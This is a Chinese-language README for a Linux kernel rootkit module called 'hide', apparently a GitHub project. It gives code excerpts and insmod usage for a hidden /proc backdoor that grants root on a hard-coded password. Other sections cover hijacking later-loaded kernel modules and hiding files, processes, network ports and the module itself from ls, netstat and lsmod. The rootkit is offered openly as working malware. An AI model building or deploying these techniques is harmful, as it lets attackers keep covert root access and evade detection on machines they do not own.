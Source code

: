 ## 开发者：
Eidos

## 参考资料：
libreCrops所提全部功能相关的内容

是一个整合体（缝合怪）。

## 运行环境：
尚没有测试过全部版本，开发时采用的环境为`Ubuntu20.04 + Linux kernel 5.4.81`。但根据5.x中较小的代码变动以及该项目尚未使用`kall_sysm_table`进行函数挂钩，应该适用于大部分5.x版本内核。
## 主体文件：
`hide.c`为全部功能集成的`main`文件，如需添加功能，在`Makefile`后嵌入新模块并采用类似其余模块的方式进行函数调用即可。

特别注意：包含写保护信息的函数模块`./src/protect.o`需要放在队伍的最后。
```Makefile
hide-objs := ./src/hide.o ./src/backdoor.o ./src/fake.o \
./src/filehide.o ./src/prochide.o ./src/protocolhide.o \
./src/modhide.o ./src/protect.o
```
## 功能简介
### 后门设置：
```C
// 提权所需口令
#define PASSWORD "ELPSYKONGROO"
#define BACKDOOR "STEINSGATE" // 后门需要藏好
#define BACKDOOR_PATH "/proc" // 因此需要特地先藏好这个文件路径
```
本Rootkit设置了提权选项，其所在路径为`/proc/STEINSGATE`，在输入"ELPSYKONGROO"给/proc/STEINSGATE文件时，将会提权为Root。

该后门采用了进程隐藏的方式藏匿起来，无法通过`ls /proc`寻找到。

对应模块文件：`backdoor.c`
### 阻止后续插入模块正常运转：
```C
switch (module->state) {
    case MODULE_STATE_COMING:
        printk(KERN_INFO "Replacing init and exit functions: %s.\n", module->name);
        module->init = fake_init;
        module->exit = fake_exit;
        break;
    default:
        break;
}
```
利用`notifier_block`的链式通知机制，以及利用`data`段存放`module`的做法实现了以下功能：当之后有新的模块嵌入时，其无法正常运转其功能，而是执行`fake_init`和`fake_exit`这些由我们的模块设置好的自定义功能。

经过测试可以支持多个模块的阻止功能。

对应模块文件`fake.c`
### 文件隐藏：
```C
char* hide_path = "default";
char* file_name = "default";
module_param(hide_path, charp, 0000);
MODULE_PARM_DESC(hide_path, "the path of dirent for file hide.");
module_param(file_name, charp, 0000);
MODULE_PARM_DESC(file_name, "the file name to hide.");
```
文件隐藏功能，在默认的情况下不打开：我们通过设置`hide_path`和`file_name`为"default"作为默认值，并判断模块插入后这两个参数的赋值情况来确定是否执行文件隐藏。具体来说如下所示：
```C
if (strcmp("default", hide_path) == 0) {
    return;
}
                
printk(KERN_INFO "Opening the path: %s.\n", hide_path);          
filp = filp_open(hide_path, O_RDONLY, 0);                

if (filp == NULL) return;        
```
其原理为当前文件夹下的`iterate`函数挂钩修改，在此不赘述。

如果我们需要隐藏根目录下的文件"alien"，模块的使用方法为：
```shell
$ sudo insmod hide.ko hide_path="/" file_name="alien"
```
再次在根目录下使用`ls`命令，能够观测到`alien`文件的消失。

对应模块文件`filehide.c`

### 进程隐藏：
进程隐藏与文件隐藏原理保持一致，只是锁定了先前提及的hide_path为常量：
```C
#define PROC_HIDE_PATH "/proc"
```
特别的，由于我们之前设置的后门亦在该文件夹下，需特地把后门隐藏好再说。
```C
module_param(secret_proc, long, S_IRUSR);
MODULE_PARM_DESC(secret_proc, "the secret process number.");
```
若想隐藏进程号为1234的进程，使用方法：
```shell
$ sudo insmod hide.ko secret_proc=1234
```

该过程会让其在文件夹`/proc`下不可见。

对应模块文件：`prochide.c`

### 端口隐藏：
```C
int tcp4 = INT_MAX;
int tcp6 = INT_MAX;
int udp4 = INT_MAX;
int udp6 = INT_MAX;

module_param(tcp4, int, S_IRUSR | S_IWUSR | S_IRGRP);
module_param(tcp6, int, S_IRUSR | S_IWUSR | S_IRGRP);
module_param(udp4, int, S_IRUSR | S_IWUSR | S_IRGRP);
module_param(udp6, int, S_IRUSR | S_IWUSR | S_IRGRP);

MODULE_PARM_DESC(tcp4, "tcp4 port.");
MODULE_PARM_DESC(tcp6, "tcp6 port.");
MODULE_PARM_DESC(udp4, "udp4 port.");
MODULE_PARM_DESC(udp6, "udp6 port.");
```
端口文件提供了四个可由命令行传递的参数，以模块隐藏TCP4端口为33，TCP6端口为34，UDP4端口为123，UDP6端口为124为例，使用的方法为：
```shell
$ sudo insmod hide.ko tcp4=33 tcp6=34 udp4=123 udp6=124
```

端口隐藏涉及了`seq_file`类型的文件操作函数`show`，通过挂载该函数可以实现端口的隐藏，通过阅读源码可知，四种类型均存放输出信息于`seq_file`数据结构的`buf`载荷之中，以`count`作为当前`buf`长度，在我们使用`netstat`或者`cat /proc/net/tcp`最后以`write`方式输出在终端上。以TCP4隐藏端口为例。
```C
last_count = seq->count;
snprintf(needle, NEEDLE_LEN, ":%04X", tcp4);
ret = real_seq_show_tcp4(seq, v);
last_size = seq->count - last_count;

if (strnstr(seq->buf + seq->count - last_size, needle, last_size)) {
    printk(KERN_INFO "Hiding port %d using needle %s.\n", tcp4, needle);
    seq->count -= last_size; 
}
```
本质上他修正`count`载荷大小为读入该端口信息前的长度，如果我们隐藏的信息是最后一个，那么因为长度不够而干脆不打印。如果我们隐藏的端口信息不是最后一个，那么之后的端口信息将会覆盖之，从而实现隐藏。

对应的模块文件为`protocolhide.c`

### 模块隐藏：
综合使用了用于`seq_file`的隐藏方式和文件隐藏方式，使得模块`hide`的存在信息不可见于`cat /sys/module`和`lsmod`命令。

对应的模块文件为`modhide.c`

## 源码阅读：
参考`libreCrops`文件夹中的wiki。